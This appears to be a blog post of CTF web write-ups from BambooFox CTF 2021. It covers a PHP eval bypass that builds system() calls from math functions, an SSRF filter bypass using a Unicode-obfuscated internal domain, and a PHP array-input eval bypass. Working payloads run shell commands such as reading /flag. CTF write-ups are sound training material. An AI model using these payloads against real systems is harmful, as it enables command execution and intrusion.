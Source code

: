 ```yaml
---
title: "CTF Web Collection"
categories:
  - CTF
tags:
  - ctf
---
```

CTF Collection, only Web Exploitation.

## PHP Eval with math function only (Calc.exe - BambooFox CTF 2021)
We got a simple calculator app based on PHP and it will catch the `_GET['expression']` parameter as our input.

<a href="/assets/images/ctf/bamboo/1.png"><img src="/assets/images/ctf/bamboo/1.png"></a>

Let's see the source code, maybe we found something useful. 

<a href="/assets/images/ctf/bamboo/2.png"><img src="/assets/images/ctf/bamboo/2.png"></a>

There is a `/source` there, let's check it out.

<a href="/assets/images/ctf/bamboo/3.png"><img src="/assets/images/ctf/bamboo/3.png"></a>

So, we got the source code. It's simply filtering almost all but we can use the math functions that leads to code execution.

So i use this payload from [here](https://www.anquanke.com/post/id/220813#h3-2) to find the right math function to produce strings / codes that we want.

```php
<!DOCTYPE html>
<html>
<body>

<?php
$whitelist = [ 'abs' , 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos ' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod', 'getrandmax' , 'hexdec' , 'hypot', 'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , ' octdec' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt' , 'srand' , 'tan' , 'tanh']; 
$whitelist2 = [ 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod' ,'getrandmax' , 'hexdec' , 'hypot' ,'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , 'octdec ' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt', 'srand' , 'tan' , 'tanh' ,'abs' ];

foreach ($whitelist as $i): foreach ($whitelist2 as $k): echo $k^$i^ "*" ; echo " " . $i. " " . $k; echo "<br/>" ; endforeach ; endforeach ;




?>
```

The result for producing the " *" (including the space). I need it because i want to run `system(ls *)`.

<a href="/assets/images/ctf/bamboo/4.png"><img src="/assets/images/ctf/bamboo/4.png"></a>

So we got `10 sin pi` (for example). The `10` is on hexadecimal. 

<a href="/assets/images/ctf/bamboo/5.png"><img src="/assets/images/ctf/bamboo/5.png"></a>

We can use `dechex` function to produce the `10`. Let's try running it on the real website.

<a href="/assets/images/ctf/bamboo/6.png"><img src="/assets/images/ctf/bamboo/6.png"></a>

So we just need to produce `system` and `ls` with math function. Here i use `base_convert` to produce the strings. 

<a href="/assets/images/ctf/bamboo/7.png"><img src="/assets/images/ctf/bamboo/7.png"></a>
<a href="/assets/images/ctf/bamboo/8.png"><img src="/assets/images/ctf/bamboo/8.png"></a>

So, let's use all the payload we generate before. It's looks something like this `base_convert(1751504350,10,36)(base_convert(784,10,36).(dechex(16)^asinh^pi)`.

<a href="/assets/images/ctf/bamboo/9.png"><img src="/assets/images/ctf/bamboo/9.png"></a>

So we got no flag. I found the flag is on the `/` directory.

<a href="/assets/images/ctf/bamboo/10.png"><img src="/assets/images/ctf/bamboo/10.png"></a>

Let's `cat` the flag!

<a href="/assets/images/ctf/bamboo/11.png"><img src="/assets/images/ctf/bamboo/11.png"></a>

##### Resource:
> - [https://www.anquanke.com/post/id/220813#h3-2](https://www.anquanke.com/post/id/220813#h3-2)
- [https://northity.com/2019/04/23/CISCN2019Web-WP/#love-math](https://northity.com/2019/04/23/CISCN2019Web-WP/#love-math)

## SSRF bypass using domain obfuscator (SSRFrog - BambooFox CTF 2021)
Let's open the website.

<a href="/assets/images/ctf/bamboo/12.png"><img src="/assets/images/ctf/bamboo/12.png"></a>

Let's check the source code.

<a href="/assets/images/ctf/bamboo/13.png"><img src="/assets/images/ctf/bamboo/13.png"></a>
<a href="/assets/images/ctf/bamboo/14.png"><img src="/assets/images/ctf/bamboo/14.png"></a>

We need to access the `http://the.c0o0o0l-fl444g.server.internal`. But, we can't use repeated characters. We can use this [domain obfuscator](https://splitline.github.io/domain-obfuscator/) to bypass this.

Final payload will be `HTtp:/ｔhＥ.c0o₀O⁰L-fl4⁴４g｡sEｒvｅr．inＴeʳｎaｌ`. The result:

<a href="/assets/images/ctf/bamboo/15.png"><img src="/assets/images/ctf/bamboo/15.png"></a>

## PHP Challenge (ヽ(#`Д´)ﾉ - BambooFox CTF 2021)
<a href="/assets/images/ctf/bamboo/16.png"><img src="/assets/images/ctf/bamboo/16.png"></a>

Our input is verified to be less than 0xA characters and not contain any alphanumeric characters. It is then `eval`'d after being passed through `print\_r`. The catch is the length and character checks are done using `!strlen` and `!preg_match` instead of `cond!==false`.

We can pass in an array and it will always bypass these checks, the next thing is to construct input that is valid PHP after being passed in. The PHP parser doesn't really like the array output, and will first throw a syntax error. We can deal with this by adding a constant and closing parenthesis.

We then get an `illegal offset type` error. I was able to get around this by making the array indice a variable, which gives a `illegal offset type` warning (I have no idea). Now that our input is accepted as PHP we just add a ``print \`cat /flag\*\`` to get our flag.

<a href="/assets/images/ctf/bamboo/18.png"><img src="/assets/images/ctf/bamboo/18.png"></a>
<a href="/assets/images/ctf/bamboo/19.png"><img src="/assets/images/ctf/bamboo/19.png"></a>

The result: 

<a href="/assets/images/ctf/bamboo/17.png"><img src="/assets/images/ctf/bamboo/17.png"></a>

Alternative: `%E3%83%BD(%23%60%D0%94%C2%B4)%EF%BE%89[0/*]=1*/]);system("cat%20/flag_de42537a7dd854f4ce27234a103d4362");/*`.

##### Resource:
> - [https://github.com/Seraphin-/ctf/blob/master/bamboofox_2021/face.md](https://github.com/Seraphin-/ctf/blob/master/bamboofox_2021/face.md)
- [https://spotless.tech/bambooctf-2021-angryface-php.html](https://spotless.tech/bambooctf-2021-angryface-php.html)












## Other
- [https://github.com/Kirill89/prototype-pollution-explained](https://github.com/Kirill89/prototype-pollution-explained)
